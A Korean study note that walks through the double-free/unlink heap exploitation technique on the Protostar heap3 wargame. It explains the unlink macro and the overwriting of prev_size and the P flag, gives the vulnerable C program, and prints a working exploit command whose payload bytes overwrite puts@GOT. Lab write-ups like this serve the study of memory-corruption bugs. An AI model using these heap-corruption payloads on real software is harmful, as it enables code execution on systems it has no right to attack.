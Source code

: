 # **Double free bug**

* Free를 두 번할 경우 발생하는 버그이다.
* Free가 호출될 때 인접한 Free Chunk가 있다면 더 큰 Free Chunk로 병합된다.
* Chunk가 병합될 때 unlink 매크로가 발생한다. unlink 매크로를 통해 원하는 공간에 원하는 값을 입력할 수 있다.
* unlink를 공격하는 방법은 glibc 2.3.2 버전 이하에서만 가능하다.

```c
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

```
FD = *P + 8;
BK = *P + 12;
FD + 12 = BK;
BK + 8 = FD;
```

![unlink](/Resources/img/double_free_bug_unlink.jpeg)

## **Proof of Concept**

### **Protostar의 heap3**

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
int main(int argc, char **argv)
{
  char *a, *b, *c;
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
  free(c);
  free(b);
  free(a);
  printf("dynamite failed?\n");
}
```

* strcpy(a,argv[1])에서 Overflow를 통해 b의 **P flag**와 **pre_size** 값을 변조한다.  

**P flag 변조**
* P flag가 0이라는 뜻은 b가 free될 때 a chunk와 병합이 일어난다는 뜻이다. 
* 따라서 P flag를 0으로 변조시키면 unlink 매크로가 발생한다. 
* unlink가 실행되면 fd가 가리키는 주소의 + 12 지점에 bk가 입력되고 bk가 가리키는 주소의 + 8 지점에 fd가 입력되어 임의의 주소에 원하는 값을 입력할 수 있다.

**pre_size 변조**
* Heap에서 이전 Chunk의 주소값은 "&b - pre_size"로 표현된다.
* pre_size 값을 0xfffffffc(-4)로 변조할 경우 &b + 4 byte가 된다.
* 생성한 가짜 Chunk는 우리가 입력할 수 있는 공간이기 때문에 fd와 bk를 조작할 수 있다.

### **Exploit Method**

1. a에 "push puts@got ; ret" 코드 삽입 및 \xfc\xff\xff\xff로 pre_size, size 변조
1. 가짜 Chunk의 fd 위치에 puts@got - 12를 삽입하고 bk에는 해당 code를 가리키는 주소값을 입력한다. 

## **Exploit**

```
root@protostar:/home/protostar# ./heap3 $(python -c 'print "\x90"*22+"\x68\x64\x88\x04\x08\xc3"+"A"*4+"\xfc\xff\xff\xff"+"\xfc\xff\xff\xff"') $(python -c 'print "A"*4+"\x1c\xb1\x04\x08"+"\x10\xc0\x04\x08"') C
that wasn't too bad now, was it? @ 1577555750
```

### **Add**

* DFB에서 .dtors + 4(소멸자)의 주소를 찾아 사용하는 방법도 있음

**References**  
<http://index-of.co.uk/Reverse-Engineering/Double%20Free%20Bug%20%5Bseoty-_-v%5D.pdf>  
<https://medium.com/@airman604/protostar-heap-3-walkthrough-56d9334bcd13>  
<https://itsaessak.tistory.com/136>  
<http://phrack.org/issues/57/9.html>